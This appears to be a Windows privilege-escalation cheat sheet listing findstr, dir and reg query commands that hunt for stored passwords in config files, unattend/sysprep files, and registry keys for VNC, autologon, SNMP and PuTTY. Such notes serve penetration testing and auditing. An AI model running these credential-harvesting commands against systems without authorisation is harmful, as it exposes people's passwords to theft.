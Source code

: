 ## Search for them

findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#### Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

#### Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*

## In Files

These are common files to find them in. They might be base64-encoded. So look out for that.

c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

## In Registry

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

#### Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

#### SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

#### Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

#### Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
